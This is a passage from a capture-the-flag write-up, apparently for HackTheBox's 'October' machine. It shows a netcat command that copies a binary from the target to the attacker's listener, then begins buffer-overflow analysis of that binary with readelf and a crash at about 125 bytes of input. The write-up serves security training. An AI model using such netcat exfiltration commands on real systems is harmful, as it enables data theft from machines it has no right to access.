 ```bash
nc -lnvp 9001 > ovflw 
```

And cat out the file from the target, piping it to my netcat listener: 

```bash
cat ovflw | nc 10.10.14.63 9001
```

### Buffer Overflow

Once I got the file over to my attack machine I start analyzing it. Let's run `readelf` on it to get a general overview:

```bash
readelf -h ovflw
```

![readelf-20](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/October/img/readelf-20.png)


We can see it's a 32-bit executable binary in little endian format. From here, I run it a couple of times and find that an input of around 125 bytes causes a segmentation fault:

![crash-21](https://github.com/DanielIsaev/CTFs/blob/main/HackTheBox/October/img/crashed-21.png)
